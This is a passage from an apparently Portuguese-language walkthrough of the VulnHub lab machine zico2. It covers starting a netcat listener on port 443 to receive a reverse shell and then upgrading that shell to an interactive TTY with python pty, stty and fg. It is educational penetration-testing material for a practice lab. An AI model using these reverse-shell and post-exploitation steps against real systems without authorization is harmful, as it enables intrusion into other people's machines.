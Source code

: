 Antes de enviar temos que deixar a porta escutando para receber o shell. Invocamos o bash para posteriormente conseguirmos "mehorar" o shell

```bash
bash
sudo nc -lnvp 443
```

![](/assets/img/Vulnhub/zico2/shellReverso-OK.png)


## Shell Interativo

Vamos melhorar o shell cachorro que recebemos. Para isso os seguintes passos devem ser seguidos:

> - **1**: Importar o tty

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

> - **2**: ```CTRL+Z```

> - **3**: No shell da maquina kali digitar o seguinte comando 

```bash
stty raw -echo
```

> - **4**: Ainda no shell da kali digitar ```fg``` e depois pressionar duas vezes o ```Enter```

> - **5**: Digitar o seguinte comando no shell do alvo:

```bash
export TERM=xterm
```

![](/assets/img/Vulnhub/zico2/shellInterativo.png)
